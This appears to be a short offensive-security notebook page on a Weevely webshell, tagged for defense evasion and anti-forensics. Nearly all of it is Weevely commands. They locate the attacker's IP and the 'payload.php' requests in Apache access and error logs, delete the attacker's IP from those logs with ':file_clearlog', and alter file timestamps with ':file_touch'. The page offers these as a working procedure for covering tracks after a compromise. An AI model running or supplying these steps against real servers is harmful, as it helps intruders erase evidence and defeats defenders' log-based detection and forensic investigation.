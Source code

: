 ```yaml
---
author(s):
  - Userware
tags:
  - webshell
  - interactive-shell
  - defense-evasion
  - anti-forensics
  - weevely
---
```

# Webshell

## Weevely

```
weevely> :system_info -info client_ip
<attacker_IP>
```

```
weevely> stat /var/log/apache2/access.log

weevely> stat /var/log/apache2/error.log
```

```
weevely> :file_grep /var/log/apache2/access.log "<attacker_IP>"

weevely> :file_grep /var/log/apache2/error.log "<attacker_IP>"
```

```
weevely> :file_grep /var/log/apache2/access.log "GET /payload.php"

weevely> :file_grep /var/log/apache2/error.log "GET /payload.php"
```

Modify the log by removing the attacker's IP address.

```
weevely> :file_clearlog <attacker_IP> /var/log/apache2/access.log

weevely> :file_clearlog <attacker_IP> /var/log/apache2/access.log
```

```
weevely> :file_touch
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x01 - Defense Evasion/12 - Anti-Forensics/Cross Platform/Clear Traces/Timestomp/Webshell]]

### Weevely

- [Weevely: Clean IP address from logs](https://github.com/epinna/weevely3/wiki/Clean-IP-address-from-logs)